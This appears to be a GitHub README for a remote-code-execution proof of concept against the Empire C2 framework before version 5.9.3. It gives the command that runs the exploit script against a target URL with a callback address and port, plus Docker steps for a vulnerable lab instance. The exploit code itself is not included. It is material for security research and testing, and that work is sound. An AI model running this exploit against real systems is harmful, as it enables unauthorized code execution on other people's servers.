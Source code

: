 # Empire-C2-RCE-PoC
RCE PoC for Empire C2 framework &lt;5.9.3

### Technical Blog
[Exploiting Empire C2 Framework](https://aceresponder.com/blog/exploiting-empire-c2-framework)

### Usage

```
pip install -r requirements.txt
python3 ./rotj.py 'http://192.168.158.171:80' 127.0.0.1 4444
```

### Docker

```
sudo docker build . exploitable/empire
sudo docker run --network=host exploitable/empire

EMPIRE
sudo docker exec -it 2ec72f1568dd ./ps-empire client
# once the client is started you'll need to start a listener

uselistner http
execute
```


